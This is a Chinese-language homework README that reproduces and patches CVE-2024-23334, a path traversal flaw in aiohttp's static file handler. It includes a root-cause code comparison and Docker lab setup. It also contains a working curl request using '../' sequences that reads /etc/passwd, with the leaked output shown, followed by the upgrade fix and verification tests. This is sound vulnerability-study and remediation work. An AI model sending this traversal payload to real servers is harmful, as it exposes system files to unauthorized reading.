


# CVE-2024-23334 —— aiohttp 静态文件服务目录穿越（复现 + 修复）

## 漏洞信息

| 项目 | 内容 |
| --- | --- |
| CVE 编号 | CVE-2024-23334（CWE-22 路径遍历 / 任意文件读取） |
| 组件 | [aiohttp](https://github.com/aio-libs/aiohttp)（Python 异步 HTTP 框架） |
| 影响版本 | ≤ 3.9.1 |
| 修复版本 | **3.9.2**（PR [#8079](https://github.com/aio-libs/aiohttp/pull/8079)） |
| 官方通告 | [GHSA-5h86-8mv2-jq9f](https://github.com/aio-libs/aiohttp/security/advisories/GHSA-5h86-8mv2-jq9f) |
| 触发条件 | 用 `web.static(..., follow_symlinks=True)` 提供静态文件时 |

当 aiohttp 用作 Web 服务器并配置静态路由时，如果 `follow_symlinks=True`，处理静态文件的
代码没有校验最终读取的文件路径是否仍在静态根目录内。攻击者可在请求路径中插入 `../`
序列，回溯到静态根目录之外，读取 `/etc/passwd` 等任意系统文件。

## 根因分析（源码级 + 一句话概括）

修复前（aiohttp 3.9.1，`web_urldispatcher.py` 的 `StaticResource._handle`）：

```python
filepath = self._directory.joinpath(filename).resolve()
if not self._follow_symlinks:          # 只有 False 才做“包含性校验”
    filepath.relative_to(self._directory)
```

修复后（3.9.2）：

```python
unresolved_path = self._directory.joinpath(filename)
if self._follow_symlinks:
    normalized_path = Path(os.path.normpath(unresolved_path))
    normalized_path.relative_to(self._directory)   # True 也校验，越界即 404
    filepath = normalized_path.resolve()
else:
    filepath = unresolved_path.resolve()
    filepath.relative_to(self._directory)
```

**一句话概括：漏洞的本质是「路径拼接后缺少根目录包含性校验」。** 当 `follow_symlinks=True`
时，代码把「静态根目录 + 请求文件名」拼接并 `resolve()` 后直接打开文件，没有检查最终路径
的“前缀”是否仍是静态根目录。输入中的 `../` 被原样传递到文件打开操作，而框架没有在打开前
拒绝越界路径。这不是简单的“配置不当”，而是 `follow_symlinks=True` 分支下缺少一道必要的
安全检查。

补充：aiohttp 解析请求时用 `URL.build(..., encoded=True)` 保留字面 `..`（只有 `URL()`
构造函数才会做 RFC 3986 点段归一化），所以 `../` 能直达处理器，配合缺失的校验即可越界读文件。

## 启动复现环境（Vulhub 等价）

### 方式 A：官方 Vulhub

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/python/CVE-2024-23334
docker compose up -d          # 监听宿主机 8080
```

### 方式 B：本仓库自带环境（与 Vulhub 等价，已提交）

```bash
cd cve-2024-23334
docker compose up -d --build   # python:3.11-slim + aiohttp==3.9.1，端口 8080
```

漏洞代码（`server.py`）：

```python
app.router.add_routes([web.static("/static", "./static", follow_symlinks=True)])
```

确认服务正常：

```bash
curl http://localhost:8080/static/hello.txt   # -> hello from static dir
```

## 复现攻击（漏洞利用）

```bash
curl --path-as-is http://localhost:8080/static/../../../../../etc/passwd
```

- `--path-as-is` 是关键：curl 默认会在**客户端**对 `../` 做归一化，必须加此参数让原始路径
  原样发送。
- 预期结果：返回 `/etc/passwd` 内容（以 `root:x:0:0:...` 开头）。

实测（aiohttp 3.9.1，`HTTP/1.1 200 OK`）：

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```



## 实施修复

升级 aiohttp 到 3.9.2 并重建镜像：

```bash
cd cve-2024-23334
cp fixes/requirements.txt requirements.txt   # 将 aiohttp==3.9.1 改为 aiohttp==3.9.2
docker compose down
docker compose up --build -d
```

> 依赖以 `requirements.txt` 固定版本；修复就是把它从 `aiohttp==3.9.1` 提升到
> `aiohttp==3.9.2`。修复文件见 `fixes/requirements.txt`。

**为什么升级版本就有效**：aiohttp 3.9.2 在静态文件处理逻辑中加入了路径包含性校验，当解析后
的最终路径不在静态根目录内时拒绝请求。修复提交直接堵住了「缺少根目录包含校验」这个根因，
而不是仅仅禁用符号链接。

## 验证修复

重复同一条攻击请求 + 回归测试：

```bash
# 1) 同一条攻击请求 → 不再返回 /etc/passwd，而是 404（或 403）
curl --path-as-is http://localhost:8080/static/../../../../../etc/passwd   # -> 404

# 2) 回归测试：合法静态文件 → 200（正常功能未受损）
curl -s -o /dev/null -w "%{http_code}\n" http://localhost:8080/static/hello.txt   # -> 200
```

实测（aiohttp 3.9.2）：攻击请求返回 **404**，`hello.txt` 返回 **200**。



## 提交物清单

| 提交物 | 位置 |
| --- | --- |
| 公共 Git 仓库 | https://github.com/xixingzhebailongma/security-homework |
| 复现环境 | `cve-2024-23334/`（`server.py`、`Dockerfile`、`docker-compose.yml`、`requirements.txt`=3.9.1） |
| 修复文件 | `cve-2024-23334/fixes/requirements.txt`（`aiohttp==3.9.2`） |
| 成功流水线 | https://github.com/xixingzhebailongma/security-homework/actions/runs/41078102336 |

## 评分对照自查

| 评分项 | 完成情况 |
| --- | --- |
| API 功能（2 分） | 登录返回 token；`/api/data` 无 token 401、有 token 200（见 `../secure-api/`） |
| 安全措施（2 分） | SQLi `?` 参数化（0.5）+ XSS `escape()`（0.5）+ JWT & bcrypt（1） |
| CI/CD（2 分） | `bandit` + `pip-audit` 在 push/PR 自动运行（见 `.github/workflows/ci.yml`） |
| CVE 复现（2 分） | `docker compose up -d` 后 `curl --path-as-is` 读到 `/etc/passwd` |
| 根因分析（1 分） | 明确「路径拼接后缺少根目录包含性校验」 |
| 修复验证（1 分） | 升级 3.9.2 后同一请求 404，回归测试 200 |
